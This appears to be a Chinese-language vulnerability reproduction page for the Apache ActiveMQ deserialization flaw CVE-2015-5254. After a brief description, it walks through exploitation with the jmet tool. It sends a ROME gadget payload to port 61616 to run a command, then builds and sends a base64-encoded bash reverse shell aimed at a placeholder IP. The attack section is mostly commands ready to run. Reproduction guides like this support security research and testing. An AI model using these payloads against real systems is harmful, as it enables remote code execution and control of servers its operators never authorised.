

# Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache ActiveMQ 5.13.0之前5.x版本</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="首先下载 jmet https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar" description="" showIcon>
</a-alert>

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成`/tmp/vuln`的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

访问 `http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event `可以看到多了一条消息队列


点击这个信息触发文件创建



成功执行命令创建文件，也可以创建一个`反弹shell`的payload

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME xxx.xxx.xxx.xxx 61616
```

同样点击消息队列会触发命令执行

